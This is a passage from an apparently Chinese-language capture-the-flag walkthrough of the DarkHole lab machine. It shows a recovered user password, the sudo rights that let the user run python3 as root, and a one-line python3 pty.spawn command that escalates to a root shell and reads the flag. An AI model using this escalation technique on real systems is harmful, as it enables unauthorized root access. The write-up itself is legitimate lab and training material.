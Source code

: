     可以找到`losy`的密码为`gang`
    
2. 进行`ssh`登录，能过得交互性更好的`shell`
3. 查看权限
    - `SUDO` ，可以以root权限执行`python3` ，可以提权了
        
        ```python
        ```python
        losy@darkhole:~$ sudo -l
        [sudo] password for losy: 
        Matching Defaults entries for losy on darkhole:
            env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
        
        User losy may run the following commands on darkhole:
            (root) /usr/bin/python3
        ```
        ```
        
4. 使用`python3`提权，使用`python`生成虚拟终端即可
    
    ```python
    losy@darkhole:~$ sudo /usr/bin/python3 -c "import pty;pty.spawn('/bin/sh')"
    # whoami
    root
    ```
    
    获得`root`！！！！
    
5. 读取`flag`文件
    
    ```python
    # cat root.txt
    DarkHole{'Legend'}
    ```
    

## 总结

`.git`的使用，以及`git diff`；以及`bash_history`也可能存在敏感内容；